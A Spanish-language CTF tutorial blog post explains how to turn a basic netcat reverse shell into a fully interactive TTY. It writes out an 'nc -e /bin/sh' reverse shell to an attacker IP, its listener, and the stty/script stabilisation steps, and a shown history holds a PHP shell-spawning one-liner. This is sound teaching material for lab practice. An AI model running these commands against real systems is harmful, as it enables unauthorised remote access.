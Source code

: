 ```yaml
---
title: "Domina el TTY: Tu Guía para Explotar Shells Durante CTFs"
date: 2024-06-12 19:00:00 +0200
categories: [CTF, Tutoriales]
tags: [tty, shell, reverse-shell, Tutoriales]
---
```


¡Bienvenidos a nuestro tutorial sobre TTY en contextos de CTF! ¿Alguna vez hemos logrado acceder a una shell durante un CTF y nos hemos encontrado con que es casi inutilizable? Aquí vamos a mostrar cómo podemos mejorar nuestra experiencia y hacer nuestra shell mucho más interactiva y funcional.

## ¿Qué es el TTY y por qué es importante?

El TTY (abreviatura de teletypewriter) se refiere a la terminal en la que interactuamos con nuestro sistema. Cuando explotamos una vulnerabilidad y obtenemos acceso a una shell, a menudo es básica y limitada. Mejorar esta shell con un tratamiento adecuado de TTY puede transformar nuestra experiencia, permitiéndonos interactuar con el sistema objetivo como si estuviéramos trabajando directamente desde su consola.

## Ejemplo sin TTY: Reverse shell Básica

Supongamos que hemos lanzado una reverse shell con este comando desde la máquina objetivo:

```bash
nc -e /bin/sh 192.168.1.100 5555
```

Y nuestra máquina atacante está escuchando con:

```bash
nc -lvnp 5555
```

Una vez que la conexión se establece, aquí está lo que enfrentamos:


## * No hay autocompletado: Al presionar Tab para completar comandos o nombres de archivos simplemente no funciona. Ejemplo:
```bash
cd /sys/ker	    aa
```
## * No podemos limpiar la pantalla: Los comandos como clear no funcionan, dejando la sesión visualmente desordenada. Ejemplo:
```bash
clear
TERM environment variable not set.
```

## * Control de señales deficiente: Intentar detener un proceso con Ctrl+C cerrará la shell. Ejemplo:

```bash

lrwxrwxrwx   1 root root     7 jun  6 09:10 bin -> usr/bin
drwxr-xr-x   3 root root  4096 jun  6 09:14 boot
drwxr-xr-x  17 root root  3260 jun 12 20:13 dev
drwxr-xr-x  76 root root  4096 jun 12 20:53 etc
drwxr-xr-x   3 root root  4096 jun  6 10:42 home
lrwxrwxrwx   1 root root    30 jun  6 09:12 initrd.img -> boot/initrd.img-6.1.0-21-amd64
lrwxrwxrwx   1 root root    30 jun  6 09:11 initrd.img.old -> boot/initrd.img-6.1.0-18-amd64
lrwxrwxrwx   1 root root     7 jun  6 09:10 lib -> usr/lib
lrwxrwxrwx   1 root root     9 jun  6 09:10 lib64 -> usr/lib64
drwx------   2 root root 16384 jun  6 09:10 lost+found
drwxr-xr-x   3 root root  4096 jun  6 09:10 media
drwxr-xr-x   2 root root  4096 jun  6 09:10 mnt
drwxr-xr-x   3 root root  4096 jun  6 11:05 opt
dr-xr-xr-x 229 root root     0 jun 12 20:12 proc
drwx------   4 root root  4096 jun  6 11:31 root
drwxr-xr-x  19 root root   620 jun 12 20:13 run
lrwxrwxrwx   1 root root     8 jun  6 09:10 sbin -> usr/sbin
drwxr-xr-x   3 root root  4096 jun  6 10:28 srv
dr-xr-xr-x  13 root root     0 jun 12 20:12 sys
drwxrwxrwt  10 root root  4096 jun 12 20:39 tmp
drwxr-xr-x  12 root root  4096 jun  6 09:10 usr
drwxr-xr-x  12 root root  4096 jun  6 09:19 var
lrwxrwxrwx   1 root root    27 jun  6 09:12 vmlinuz -> boot/vmlinuz-6.1.0-21-amd64
lrwxrwx: not foundt root    27 jun  6 09:11 vmlinuz.old -> boot/vmlinuz-6.1.0-18-amd64
^[[A^[[A
sh: 7: 
^C

    ~  ✘ 1  took  42s  
```

## * Caracteres extraños al navegar por el historial: Las flechas del teclado generan caracteres como  ^[[A [[2~^[[H ^[[B.  Ejemplo:
```bash
^[[A^[[A^[[B^[[C^[[D^[[C^[[B^[[D^[[C^[[A^[[D^[^[[C^[[A^[[D^[[2~^[[H
```
## Esta situación, aunque funcional, está lejos de ser ideal. En la siguiente sección, vamos a mostrar cómo podemos transformar esta experiencia básica en algo mucho más poderoso.

## Mejorando la Experiencia: Uso de TTY en Reverse shell

Ahora que tenemos una conexión de shell básica, vamos a transformarla en una interfaz completamente interactiva. Aquí te mostramos cómo podemos lograr una experiencia de shell completa, utilizando el método script para simular un TTY:

## * Asegurar una conexión básica: 
Nos aseguramos de que tenemos una shell básica corriendo como la que hemos establecido previamente con Netcat.

## * Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
## *  Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos 
```bash
Control+Z 
```
para suspender temporalmente nuestra shell.

## * Preparar nuestro terminal local: 
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

## * Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```
## * Configura el tipo de terminal:

```bash
xterm
export TERM=xterm
export SHELL=bash
```
## * Ajustar dimensiones del terminal
Ajustamos las dimensiones de la terminal para mostrar la información correctamente:
```bash
stty rows 52 columns 187
``` 
## Confirmamos que ahora si tenemos una Shell lista para trabajar!

Dimensiones en VI
 <img src="/img/posts/TTY.png" alt="Dimensiones VI">


control + C , no salimos de la Shell
```bash

jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
```
Podemos visualizar history
```bash
  13  /usr/bin/php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
   14  exit
   15  reset
   16  export TERM=xterm
   17  export SHELL=bash
   18  stty rows 52 columns 187
   19  vi
   20  clear
   21  history 
jenkins@find-me:~$ history 
```

<br>

Espero que os haya gustado esta guía y que os sea útil para mejorar vuestras habilidades en futuros CTFs. Seguid explorando y ajustando estos métodos según vuestras necesidades. Nos vemos pronto con más contenido que esperamos os ayude a seguir creciendo en este emocionante campo. ¡Hasta la próxima!